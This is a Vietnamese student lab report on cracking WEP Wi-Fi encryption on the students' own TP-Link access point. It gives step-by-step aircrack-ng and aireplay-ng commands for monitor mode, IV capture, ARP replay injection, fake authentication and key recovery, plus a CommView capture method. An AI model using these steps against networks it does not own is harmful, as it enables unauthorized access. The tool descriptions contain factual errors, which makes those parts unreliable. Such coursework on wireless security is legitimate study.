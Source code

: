 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![sa](https://drive.google.com/uc?id=1aHCm0PJLO8PYOZOUbA4uDkjaSs8BpUC0)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, kismet để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó\
#airodump-ng wlan0mon \
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng [tên file capture đã bắt ở trên]\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
![sa](https://drive.google.com/uc?id=1uw_2dOEvhjbrrw39FNjiHV-W9HovPF3k)\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
![sa](https://drive.google.com/uc?id=1klvZX7Vj4l27zTVmuFzCbkknZJ36qB5p)\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó\
#airodump-ng wlan0mon \
![sa](https://drive.google.com/uc?id=1e9V3GUB15kzb4qrJDE94RguO1HMLOdPK)\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon\
![sa](https://drive.google.com/uc?id=1uxm-idFgvZ5wYasNEURXoABnXALi00dR)\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon\
![sa](https://drive.google.com/uc?id=1TE5gIzEYoWYW751QPy6p0rQitV_cZrUB)\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![sa](https://drive.google.com/uc?id=1XDJcZXvDwVbhu2oRqu5ueBXxtbrMnjCQ)\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![sa](https://drive.google.com/uc?id=1vmrTDRr4ZRH7GWkaXZvIz61xFFGcrrRd)\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng WEPcrack-01.cap\
![sa](https://drive.google.com/uc?id=1Ar-9jMWRtuKf14EEidEA6OFoufx6MUy_)\
![sa](https://drive.google.com/uc?id=1_LqFv5njNnMt8-5ANaBGzK4tWKCBUKLO)\
* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![sa](https://drive.google.com/uc?id=10MKiqhKt1L1r4MzCQqTGlo3_HmK3f5wD)
![sa](https://drive.google.com/uc?id=1T7wnhI2tkVsIPaS9STrJIO5X4ysK682F)
![sa](https://drive.google.com/uc?id=1rrWt5BUhcwyHifX16vF7ZrZg2WqlhwOr)
#### **II.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![sa](https://drive.google.com/uc?id=1Q116yxgW5UeJnRkT7PAjwhSzP3LsDaRo)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![sa](https://drive.google.com/uc?id=1FnH8ipAHtR8JKaZiZOozRRV2uQ-JnYTj)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![sa](https://drive.google.com/uc?id=1Ld98sXavr3T1i0Bs37KSsLlLvadcgeyh)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![sa](https://drive.google.com/uc?id=147xuSDynLMEtdPk6-v_E_qBasmfqQm7V)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![sa](https://drive.google.com/uc?id=1P7_Tc3PPnm4OXm_3MQsnxc9ak3KRZ2QS)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![sa](https://drive.google.com/uc?id=1eWIPG86Zxlmq-5vUNfPFJH3rgTkI7v40)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![sa](https://drive.google.com/uc?id=1HzWajrfP8gYguY2NiI9NfT4OVIL4qQ4P)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![sa](https://drive.google.com/uc?id=1rMJasjiPx1NEbXk3CdFRk6SdQnqnh45X)\

